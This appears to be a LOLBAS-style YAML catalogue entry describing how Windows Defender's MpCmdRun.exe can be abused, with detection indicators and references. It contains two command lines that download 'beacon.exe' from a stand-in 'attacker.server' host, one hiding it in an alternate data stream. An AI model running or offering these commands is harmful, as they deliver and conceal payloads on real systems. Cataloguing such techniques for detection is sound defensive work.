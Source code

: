 ```yaml
---
Name: MpCmdRun.exe
Description: Binary part of Windows Defender. Used to manage settings in Windows Defender
Author: 'Oddvar Moe'
Created: '09/03/2020'
Commands:
  - Command: MpCmdRun.exe -DownloadFile -url https://attacker.server/beacon.exe -path c:\\temp\\beacon.exe
    Description: Download file to specified path
    Usecase: Download file
    Category: Download
    Privileges: User
    MitreID: T1105
    MitreLink: https://attack.mitre.org/wiki/Technique/T1105
    OperatingSystem: Windows 10
  - Command: MpCmdRun.exe -DownloadFile -url https://attacker.server/beacon.exe -path c:\\temp\\nicefile.txt:evil.exe
    Description: Download file to machine and store it in Alternate Data Stream
    Usecase: Hide downloaded data inton an Alternate Data Stream
    Category: ADS
    Privileges: User
    MitreID: T1096
    MitreLink: https://attack.mitre.org/wiki/Technique/T1096
    OperatingSystem: Windows 10
Full_Path:
  - Path: C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.4-0\MpCmdRun.exe
  - Path: C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.7-0\MpCmdRun.exe
  - Path: C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe
Code_Sample: 
  - Code: 
Detection: 
  - IOC: MpCmdRun storing data into alternate data streams.
  - IOC: MpCmdRun getting a file from a remote machine or the internet that is not expected.
  - IOC: Monitor process creation for non-SYSTEM and non-LOCAL SERVICE accounts launching mpcmdrun.exe.
  - IOC: Monitor for the creation of %USERPROFILE%\AppData\Local\Temp\MpCmdRun.log
Resources:
  - Link: https://docs.microsoft.com/en-us/windows/security/threat-protection/microsoft-defender-antivirus/command-line-arguments-microsoft-defender-antivirus
  - Link: https://twitter.com/mohammadaskar2/status/1301263551638761477
  - Link: https://twitter.com/Oddvarmoe/status/1301444858910052352
  - Link: https://twitter.com/NotMedic/status/1301506813242867720
Acknowledgement:
  - Person: Askar
    Handle: '@mohammadaskar2'
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
---
```


